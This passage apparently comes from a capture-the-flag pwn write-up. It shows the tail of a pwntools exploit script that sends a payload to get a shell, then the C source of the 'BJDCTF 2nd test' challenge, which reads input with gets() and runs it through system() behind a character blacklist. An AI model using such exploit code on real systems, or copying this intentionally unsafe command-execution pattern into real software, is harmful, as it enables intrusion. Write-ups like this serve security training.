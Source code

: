 ```python
        # it will execute system(&buf) actually
        p.send(payload)
        for i in range(0xf):
            p.send(str(data_list[i]))
            sleep(0.1)
        p.interactive()

    # way1()
    way2()
```

## [BJDCTF 2nd]test

```c++
// test.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(){
    char cmd[0x100] = {0};
    puts("Welcome to Pwn-Game by TaQini.");
    puts("Your ID:");
    system("id");
    printf("$ ");
    gets(cmd);
    if( strstr(cmd, "n")
       ||strstr(cmd, "e")
       ||strstr(cmd, "p")
       ||strstr(cmd, "b")
       ||strstr(cmd, "u")
       ||strstr(cmd, "s")
       ||strstr(cmd, "h")
       ||strstr(cmd, "i")
       ||strstr(cmd, "f")
       ||strstr(cmd, "l")
       ||strstr(cmd, "a")
       ||strstr(cmd, "g")
       ||strstr(cmd, "|")
       ||strstr(cmd, "/")
       ||strstr(cmd, "$")
       ||strstr(cmd, "`")
       ||strstr(cmd, "-")
       ||strstr(cmd, "<")
       ||strstr(cmd, ">")
       ||strstr(cmd, ".")){
        exit(0);
    }else{
        system(cmd);
    }
    return 0;
}
```
